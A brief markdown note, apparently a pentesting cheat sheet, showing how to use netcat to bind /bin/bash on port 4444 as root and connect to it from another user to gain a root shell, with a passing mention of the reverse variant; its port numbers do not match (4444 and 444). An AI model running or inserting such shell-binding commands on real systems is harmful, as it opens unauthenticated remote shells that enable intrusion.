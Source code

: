 # Netcat

Hand over a shell:
```
root$ nc -lvp 4444 -e /bin/bash
```

Now connect to it from another user
```
otheruser$ nc 192.168.1.101 444
whoami
root
```

The same thing can be done in reverse. The one listening is giving us the shell.